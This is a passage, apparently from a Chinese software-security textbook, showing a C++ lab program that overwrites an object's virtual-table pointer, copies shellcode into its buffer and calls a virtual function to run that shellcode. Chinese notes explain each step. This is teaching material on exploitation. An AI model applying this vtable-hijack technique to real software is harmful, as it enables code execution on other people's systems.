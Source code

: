```c++
			cout<<"Class Vtable::test()"<<endl;
		}
};

Failwest overflow, *p;
void main(void)
{
	char * p_vtable;
	p_vtable=overflow.buf-4;//point to virtual table

	//reset fake virtual table to 0x004088cc
	//the address may need to ajusted via runtime debug
	p_vtable[0]=0xCC;
	p_vtable[1]=0x88;
	p_vtable[2]=0x40;
	p_vtable[3]=0x00;
	strcpy(overflow.buf,shellcode);//set fake virtual function pointer
	p=&overflow;
	p->test();
} 
```

对这段程序需要说明如下。
- 虚表指针位于成员变量 char buf[200]之前，程序中通过 p_vtable=overflow.buf-4 定位到这个指针。
- 修改虚表指针指向缓冲区的 0x004088CC 处。
- 程序执行到 p->test()时，将按照伪造的虚函数指针去 0x004088CC 寻找虚表，这里正好是缓冲区里 shellcode 的末尾。在这里填上 shellcode 的起始位置 0x0040881C 作为伪造的虚函数入口地址，程序将最终跳去执行 shellcode，如下图所示。
